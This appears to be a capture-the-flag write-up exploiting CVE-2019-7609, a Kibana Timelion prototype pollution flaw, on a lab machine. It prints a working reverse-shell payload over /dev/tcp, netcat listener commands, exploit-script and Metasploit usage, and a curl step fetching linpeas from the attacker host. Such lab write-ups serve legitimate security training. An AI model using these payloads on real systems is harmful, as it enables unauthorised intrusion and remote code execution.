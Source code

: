 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](attachment/cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](attachment/e8a15745496651c4b5b275912f8c037d.png)

![](attachment/c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](attachment/f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
-  https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](d24a174170333ddd84070e2414595cc2.png)![](eaaad08b9760b6b943ea9af458e1c8cd.png)



Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](c53a369d6204c98af36def3009c7b52d.png)

Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.



I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![](93756ad44bea650fa9d6eff977b07209.png)



